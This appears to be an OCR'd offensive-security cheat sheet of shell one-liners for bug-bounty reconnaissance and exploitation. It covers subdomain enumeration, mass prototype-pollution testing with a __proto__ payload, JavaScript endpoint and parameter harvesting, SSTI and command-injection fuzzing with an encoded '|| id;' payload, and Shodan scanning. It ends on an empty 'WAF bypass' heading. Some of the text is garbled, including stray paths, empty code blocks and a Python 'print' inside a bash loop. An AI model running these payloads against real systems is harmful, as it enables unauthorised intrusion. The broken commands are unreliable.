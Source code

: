 ```
```
---------------
## Prototype Pollution:
```
subfinder -d target.com -all -silent | httpx -silent -threads 100 | anew alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
-------------
## JS Files:
### Find JS Files:
```
cat target.txt | (gau || hakrawler || waybackurls || katana) | grep -i -E "\.js" | egrep -v "\.json|\.jsp" | anew js.txt
```
```
while read -r url; do
  if curl -s -o /dev/null -w "%{http_code}" "$url" | grep -q 200 && \
     curl -s -I "$url" | grep -iq 'Content-Type:.*\(text/javascript\|application/javascript\)'; then
    echo "$url"
  fi
done < urls.txt > js.txt
```
### Hidden Params in JS:
```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | sort -u | httpx -silent -threads 100 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```
### Extract sensitive end-point in JS:
```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
-------------------------
### SSTI:
```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```
```
echo target.com | gau --subs --threads 200 | httpx -silent -mc 200 -nc | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt && ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```
---------------------------
## Scan IPs
```
cat my_ips.txt | xargs -L 100 shodan scan submit --wait 0
```
## Screenshots using Nuclei
```
nuclei -l target.txt -headless -t nuclei-templates/headless/screenshot.yaml -v
```
## SQLmap Tamper Scripts - WAF bypass
```
```
